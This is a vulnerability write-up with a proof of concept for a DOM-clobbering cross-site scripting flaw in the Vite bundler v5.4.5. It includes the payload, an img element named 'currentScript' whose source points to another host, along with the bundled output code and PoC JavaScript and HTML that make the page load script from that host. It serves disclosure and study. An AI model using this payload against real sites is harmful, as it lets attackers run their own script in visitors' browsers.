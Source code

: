 ## vite

### Meta

+ Library: vite
+ Version: v5.4.5
+ Stars: 67.2K
+ Payload: ```<img src="https://xxx.xxx.xxx" name="currentScript">```
+ Impact: XSS
+ CVE: N/A
+ Status: N/A
+ Foundby: TheHulk

### Library

URL: https://github.com/vitejs/vite
Bundlers run locally

### Vulnerable Code Snippet

```
npm install -D vite
node ./node_modules/vite/bin/vite.js build
```

Output:
```javascript
"use strict";var e=typeof document<"u"?document.currentScript:null,t=document.createElement("script");t.src=(typeof document>"u"?require("url").pathToFileURL(__filename).href:e&&e.src||new URL("assets/index-BQeycCZk.js",document.baseURI).href)+"extra.js";document.head.append(t);
```

## PoC

as an example, bundle the js below: `node ./node_modules/vite/bin/vite.js build`.

```javascript
var s = document.createElement('script')
s.src = import.meta.url + 'extra.js'
document.head.append(s)
```

example html:


```html
<!--Library-->
<script type="module" crossorigin src="index-BQeycCZk.js"></script>
<!--Library-->

<!--Payload-->
<img name="currentScript" src="//localhost:9999">
<!--Payload-->
```


